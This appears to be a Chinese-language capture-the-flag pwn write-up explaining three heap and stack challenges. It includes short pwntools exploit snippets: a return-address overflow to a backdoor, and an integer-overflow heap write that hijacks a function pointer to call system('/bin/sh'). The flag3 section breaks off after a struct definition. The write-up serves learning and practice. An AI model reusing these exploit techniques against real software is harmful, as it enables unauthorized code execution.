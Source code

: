 ### 生活在树上

好一个pwn三板斧啊，但说实话关键点都让二阶段提示讲完了，那我说什么（
#### flag1
这个数据结构是个动态数组，前面是头，头里记录了payload长度，后面是payload。

但问题在于，读取payload时，多读了一个头（0x18）长度，刚好溢出到了返回地址。

于是就可以用这个溢出返回到后门了。不过这里会遇到`movaps`栈对齐的问题，可以在ROP里加个ret，我更喜欢的解法是溢出地址再加5个字节，跳过`ENDBR64; PUSH RDP`之后，栈就对齐了。

```py
backdoor_addr = 0x40122c + 5
insert(0, 0x200 - 0x30, p64(backdoor_addr) + b'\n')
insert(10, 0, p64(backdoor_addr) * 3)
conn.sendlineafter(b'>> \n', b'4')
```

#### flag2
这个是个链表，节点结构：
```c
struct {
    long key;
    char *buf;
    long sz;
    void (*edit_ptr)(char *);
    void *next_node;
}
```

这个题的edit是通过函数指针进行的，说实话遇到函数指针都得特别小心，很容易覆盖。

这个题edit输入长度时有整数溢出到负数漏洞，可以写堆块低地址，那就可以直接写链表的函数指针了，省流版exp: 

```py

insert(0, 0x18, b'/bin/sh;')
insert(1, 0x18, b'deadbeef')
edit(1, -0x30 - 0x20 - 0x30 + 0x18, p64(system_plt))
conn.sendlineafter(b'>> \n', b'3')
conn.sendlineafter(b'please enter the key of the node you want to edit:\n', b'0')
```

#### flag3
特地把libc版本降了啊（好降，高版本堆打IO/exit_hook太麻烦了）
这题数据结构我愿称之为双向二叉树+单链表杂糅结构，增删改查都有。

```c
// 0x38 Bytes
struct {
    long key;
    char *buf;
    long sz;
    void *lnext;
    void *rnext;
    void *parent;
    void *link_next
}
```
